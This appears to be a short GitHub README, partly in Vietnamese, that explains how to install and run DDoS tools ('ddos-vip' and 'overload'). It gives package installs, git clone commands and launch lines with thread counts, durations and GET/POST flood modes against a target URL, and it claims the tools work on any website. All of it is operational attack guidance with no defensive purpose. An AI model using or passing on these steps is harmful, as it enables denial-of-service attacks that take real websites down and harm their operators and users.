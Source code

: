 # Setup termux
pkg install golang

pkg install openjdk-17
# Setup gg cloud
sudo apt install golang
# Lệnh Vào Tool
git clone https://github.com/User-xquyen/ddos-vip
cd toolddos-vippro
# Chế độ Get sài cho web https://
go run ddosbyXQ.go https://linkweb.com 2000 get 5000 nil
# Chế độ Post sài cho web http://
go run ddosbyXQ.go https://linkweb.com 2000 post 5000 header.txt
# Java DDoS siêu bá cân all web

java ddosbyXQ.java

Link web:

Thread: 170000

Method: 4000
# Overload DDoS
pkg install python3 python3-pip git -y

git clone https://github.com/7zx/overload

cd overload

pip3 install -r requirements.txt

python3 overload.py

├───Cách Nhập │ ├───TIME:1000 │ └───THREADS:20000 │ └───URL:link web

